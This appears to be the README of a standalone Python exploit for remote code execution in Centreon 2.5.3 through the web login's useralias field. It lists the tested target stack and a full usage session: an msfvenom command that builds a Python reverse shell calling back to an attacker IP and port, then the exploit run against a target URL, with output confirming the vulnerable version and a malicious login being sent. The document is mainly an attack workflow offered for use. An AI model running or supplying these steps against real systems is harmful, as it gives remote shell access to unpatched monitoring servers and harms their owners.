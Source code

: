 # Centreon 2.5.3 Remote Code Execution via web useralias login
Standalone Python 3 exploit for Centreon 2.5.3, rewritten from [this Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/centreon_useralias_exec.rb)

Tested with Python 3.7 on target Centreon 2.5.3 running on
* mysql 5.7
* php 5.6.40
* Ubuntu Server 16.04.6 LTS

## Usage
```
root@Kali:~/Infosec/RubyStuff/Centreon-2.5.3# msfvenom --platform python -a python -p python/shell_reverse_tcp LHOST=192.168.92.134 LPORT=4445 -f raw -o payload.py
No encoder or badchars specified, outputting raw payload
Payload size: 397 bytes
Saved as: payload.py
root@Kali:~/Infosec/RubyStuff/Centreon-2.5.3# ./centreon-2.5.3.py -h
usage: centreon-2.5.3.py [-h] -url URL -py PY

Required arguments:
  -url URL  URL of the Centreon login eg. http://192.168.92.152/centreon
  -py PY    Path to Python payload eg. payload.py in working dir
root@Kali:~/Infosec/RubyStuff/Centreon-2.5.3# ./centreon-2.5.3.py -url http://192.168.92.152/centreon -py payload.py 
Version Detected: 2.5.3
Target is vulnerable, proceeding...
Sending malicious login
```
